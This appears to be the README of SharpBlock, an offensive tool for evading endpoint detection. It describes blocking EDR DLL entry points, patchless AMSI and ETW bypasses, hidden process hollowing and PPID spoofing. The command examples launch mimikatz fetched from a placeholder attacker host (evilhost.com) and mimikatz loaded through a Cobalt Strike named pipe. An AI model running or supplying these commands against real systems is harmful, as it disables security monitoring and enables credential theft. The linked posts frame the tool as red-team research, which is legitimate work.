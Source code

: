 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.
* Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
* Patchless ETW bypass 

```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -s, --spawn=VALUE          Host process to spawn for swapping with the target
  -ppid=VALUE                Parent process ID for spawned child (PPID Spoofing)
                               exe
  -w, --show                 Show the lauched process window instead of the
                               default hide
      --disable-bypass-amsi  Disable AMSI bypassAmsi
      --disable-bypass-cmdline
                             Disable command line bypass
      --disable-bypass-etw   Disable ETW bypass
      --disable-header-patch Disable process hollow detection bypass
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload_file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 
